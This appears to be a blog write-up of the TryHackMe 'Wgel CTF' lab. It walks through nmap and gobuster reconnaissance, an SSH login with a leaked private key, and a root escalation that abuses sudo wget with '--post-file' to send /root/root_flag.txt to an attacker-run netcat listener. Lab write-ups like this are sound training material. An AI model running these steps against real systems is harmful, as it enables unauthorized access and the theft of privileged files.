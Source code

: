 ```yaml
---
layout: post
permalink: /posts/thm/wgel-ctf
title: "THM write-up: Wgel CTF"
date: 2020-08-12 22:08
tags: tryhackme CTF recon privilege_escalate
description: "Today, we are going to walk through a wget privilege escalation style CTF, just like the title suggests. This room is created by mrseth."
---
```


![titlecard](/assets/images/THM/2020-08-12-wgel-ctf/1.png)

[Link: https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

Howdy there, welcome to another THM CTF challenge. Today, we are going to walk through a wget privilege escalation style CTF, just like the title suggests. This room is created by good old mrseth who in charge of the tweety and boiler CTF room. Always put the hint on the title. For me, this room is quite simple providing you are not overthinking again. Without further ado, let's dig the hole.

## Task 1: Capture the flags

Like the same old way, capture both user and root flags.

### Task 1-2: User flag

First and foremost,  enumerate the open port using Nmap scanner

```
nmap -A -v <Machine IP>
```

![nmap](/assets/images/THM/2020-08-12-wgel-ctf/2.png)

Look like we have two ports open wide in the machine which is Port 22 (SSH) and Port 80 (HTTP). Since we are not sure about the Port 22, Port 80 might be the only way in.

![apache](/assets/images/THM/2020-08-12-wgel-ctf/3.png)

At first glance, this is just a normal apache2 default page. If you are a web developer or someone who makes use of the hacking apache page, you will notice something missing on the file table list. I'm highly suspected this page is tempered. Checking the source code of the page yield the following result.

![tempered](/assets/images/THM/2020-08-12-wgel-ctf/4.png)

Jessie huh? take note of that. After that, enumerate the site using gobuster for the hidden directory.

```
gobuster dir -u <Machine IP> -w /usr/share/dirb/wordlists/common.txt
```

![gobuster](/assets/images/THM/2020-08-12-wgel-ctf/5.png)

Gotcha! We got a /sitemap directory. Exploiting the site won't give us any information we need. Let's perform another recursive search.

```
gobuster dir -u http://<Machine IP>/sitemap -w /usr/share/dirb/wordlists/common.txt
```

![recursive](/assets/images/THM/2020-08-12-wgel-ctf/6.png)

A hidden ssh directory? Let's check it out.

![ssh](/assets/images/THM/2020-08-12-wgel-ctf/7.png)

Well, well, well, look what we got here, an RSA private key. Time to call Mr.john!

![nopassword](/assets/images/THM/2020-08-12-wgel-ctf/8.png)

Hold your horse, no password for the private key? Cool, that makes thing simple. Alright lad, time to login into Jessie's ssh with the private key.

```
ssh -i id_rsa jessie@<Machine IP>
```

![shell](/assets/images/THM/2020-08-12-wgel-ctf/9.png)

That's it, we are inside Jessie's SSH shell but where is the flag?

Don't be a lazy bum, find the flag.

### Task 1-2: Root flag

Time for the root flag. Let see what can jussie do with sudo?

![sudo](/assets/images/THM/2020-08-12-wgel-ctf/10.png)

Since we do not have the password to escalate as a superuser. The only way we can do is the [wget privilege escalation](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/). After a short search, I come across this article. Firstly, we need to open a port using Netcat.

```
nc -lvnp 4445
```

After that, punch in the following command in the Jessie ssh shell. The name of the flag file is root_flag.txt, just like the user one. The [tunnel IP](https://tryhackme.com/access) is your access IP.

```
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://<Tunnel IP>:4445
```

![wget](/assets/images/THM/2020-08-12-wgel-ctf/11.png)

Bingo, we just captured the root flag.

## Conclusion

That's all for the wgel CTF write-up. Another Linux Sudo command privilege escalation. Hope you learn something new today. Cheer! ;) 
